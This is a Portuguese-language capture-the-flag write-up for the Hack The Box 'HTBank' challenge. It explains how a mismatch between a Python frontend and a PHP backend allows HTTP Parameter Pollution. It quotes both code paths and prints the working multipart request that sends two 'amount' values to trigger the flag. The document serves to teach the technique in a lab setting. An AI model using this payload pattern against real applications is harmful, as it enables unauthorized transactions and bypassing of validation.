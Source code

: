 #ctf 

https://app.hackthebox.com/challenges/HTBank

Para resolver o lab, é preciso burlar o endpoint `/api/withdraw`, pois a função do back vai atualizar no banco o campo `show_flag` para aparecer no site, como mostra os códigos abaixo:

```PHP
# Back
public function index($router){

$amount = $_POST['amount'];
$account = $_POST['account'];

if ($amount == 1337) {
	$this->database->query('UPDATE flag set show_flag=1');
	return $router->jsonify(['message' => 'OK']);
}

return $router->jsonify(['message' => 'We don\'t accept that amount']);
}
```

O primeiro passo é sair do segundo `if` do front ao acessar esse endpoint. Para isso, basta apenas enviar um `amount` com valor 0.

```python
@api.route('/withdraw', methods=['POST'])
@isAuthenticated
def withdraw(decoded_token):
	body = request.get_data()
	amount = request.form.get('amount', '')
	account = request.form.get('account', '')

	if not amount or not account:
		return response('All fields are required!'), 401
	
	user = getUser(decoded_token.get('username'))


	try:
		if (int(user[0].get('balance')) < int(amount) or int(amount) < 0 ):
			return response('Not enough credits!'), 400

		res = requests.post(f"http://{current_app.config.get('PHP_HOST')}/api/withdraw", headers={"content-type": request.headers.get("content-type")}, data=body)

		jsonRes = res.json()
		return response(jsonRes['message'])

	except:
		return response('Only accept number!'), 500
```

Porém, no backend o amount deve ser igual a 1337 para pegarmos a flag. A solução então é usar da vulnerabilidade chamada [[HTTP Parameter Polluition]], enviando dois `amount` um com valor 0 e outro com valor 1337.

```
-----------------------------131246009024406851302182491943
Content-Disposition: form-data; name="account"

0x95452ddcfc228e491bee2aea55d7a361
-----------------------------131246009024406851302182491943
Content-Disposition: form-data; name="amount"

0
-----------------------------131246009024406851302182491943
Content-Disposition: form-data; name="amount"

1337
-----------------------------131246009024406851302182491943--
```


As linguagens de programação têm abordagens distintas para lidar com parâmetros iguais passados a uma função. Por exemplo, em JavaScript, isso resultaria na criação de um vetor; em C#, apenas o primeiro valor seria utilizado; enquanto em PHP, o último valor enviado seria considerado.

So atualizar a página e GG!